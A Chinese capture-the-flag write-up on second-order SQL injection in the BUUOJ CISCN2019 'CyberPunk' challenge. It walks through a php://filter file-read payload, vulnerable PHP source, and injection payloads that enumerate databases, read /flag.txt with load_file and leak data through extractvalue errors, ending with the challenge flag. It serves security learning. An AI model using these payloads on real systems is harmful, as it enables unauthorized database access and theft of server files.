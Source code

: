 # 二次注入
二次注入是一直绕过输入点防御的方法。
通常开发人员会在用户的输入点进行关键字过滤，防止注入攻击。
我们输出的数据插入数据数据库时会被还原并存储到数据库中。
而当web程序再次调用存储在数据库中的数据时，犹豫没有经过过滤，所以就会导致二次注入。
执行插入的恶意sql语句
## 方法
- 插入恶意数据
- 引用恶意数据
## 靶场地址
[地址](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E5%8C%97%E8%B5%9B%E5%8C%BA%20Day1%20Web5]CyberPunk)

## 关键文件



发现有file参数，因此使用

```
?file=php://filter/read=convert.base64-encode/resource=search.php
```

获取对应文件

**change.php**

```
<?php

require_once "config.php";

if(!empty($_POST["user_name"]) && !empty($_POST["address"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $address = addslashes($_POST["address"]);
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        $sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];
        $result = $db->query($sql);
        if(!$result) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "订单"
```

进行代码审计

发现对`user_name`和`phone`进行了方sql注入

发现

```
`old_address`='".$row['address']."'
```

这里没有过滤。

因为使用的是update语句

下面是查询语句

search.php

```
<?php
#search.php
require_once "config.php"; 

if(!empty($_POST["user_name"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){ 
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        if(!$row) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "<p>姓名:".$row['user_name']."</p><p>, 电话:".$row['phone']."</p><p>, 地址:".$row['address']."</p>";
    } else {
        $msg = "未找到订单!";
    }
}else {
    $msg = "信息不全";
}
?
```

根据username和phone查询



```
$sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
```

查询出user_name,phone，address，

可以添加address

## 获取当前数据库

```
',`address`=database()#
```

代码先注入到数据库中，查询的时候，其作用

![](assets/PixPin_2025-05-25_20-14-48.png)

## 获取所有数据库

```
',`address`=(select group_concat(schema_name) from information_schema.schemata)#
```

![](assets/PixPin_2025-05-25_20-19-22.png)

## 获取数据库的表

```
',`address`=(select group_concat(table_name) from information_schema.tables where table_schema='ctftraining')#
```

![](assets/PixPin_2025-05-25_20-22-25.png)

发现表flag_table

## 获取列

```
',`address`=(select group_concat(column_name) from information_schema.columns where table_name='FLAG_TABLE')#
```

![](assets/PixPin_2025-05-25_20-24-40.png)

## 查询数据



```
',`address`=(select FLAG_COLUMN from ctftraining.FLAG_TABLE)#
```

发现数据是空的

![](assets/PixPin_2025-05-25_20-28-42.png)

经过提示，发现在文件中，因此

```
',`address`=(select(load_file("/flag.txt")))#
```

![](assets/PixPin_2025-05-25_20-30-33.png)

## 报错注入

```
' where user_id=extractvalue(1,concat(0x5c,(select substr(load_file('/flag.txt'),1,20))))#
```

```
' where user_id=extractvalue(1,concat(0x5c,(select substr(load_file('/flag.txt'),20,50))))#
```

![](assets/PixPin_2025-05-25_20-34-31.png)

![](assets/PixPin_2025-05-25_20-35-27.png)

因此，结果是

flag{0fb76701-6615-4ce4-9b57-9a9c8d0ca526}

**二次注入，先把漏洞数据放到数据库中，然后第二次获取sql语句的时候，出现漏洞。**



















